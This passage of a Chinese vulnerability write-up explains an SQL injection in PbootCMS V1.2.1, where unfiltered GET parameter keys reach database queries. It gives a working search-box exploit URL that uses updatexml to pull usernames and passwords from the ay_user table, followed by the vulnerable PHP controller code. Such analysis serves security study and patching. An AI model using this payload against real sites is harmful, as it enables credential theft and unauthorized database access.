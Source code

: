 这里就将重要的方法分析一下了，其他无关的就删除掉避免影响阅读。
这里接收了外部了外部所有的get参数然后判断了开头的前4个字符是否 ext\_
开头，如果符合就直接拼接进入\$where2这个数组
然后带入数据库进行getList方法与getSpecifyList查询，而底层是字符串拼接，过滤了value没有过滤key所以有注入

0x08.4 前台搜索框注入
---------------------

### 0x08.4.1 漏洞利用

    url:http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Search/index?keyword=aaaa&updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId41.png)

### 0x08.4.2 漏洞讲解

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\SearchController.php
方法：index()

    // 骚操作 注入
        // parserSearchLabel
        public function index()
        {
            $content = parent::parser('search.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, 0, '搜索', url('/home/Search/index')); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '搜索结果', url('/home/Search/index')); // 解析分类标签
            $content = $this->parser->parserSearchLabel($content); // 搜索结果标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserSearchLabel(

    进入以后 查看调用了 $content = $this->parser->parserSearchLabel($content);  方法
    // 解析内容搜索结果标签
    public function parserSearchLabel($content)
    {
      ...
      foreach ($_GET as $key => $value) {
        if (! ! $value = get($key, 'vars')) {
          $where2[$key] = $value;
        }
      }
      ...
      // 读取数据
      if (! $data = $this->model->getList($scode, $num, $order, $where1, $where2, $fuzzy)) {
        $content = str_replace($matches[0][$i], '', $content);
        continue;
      }
    }
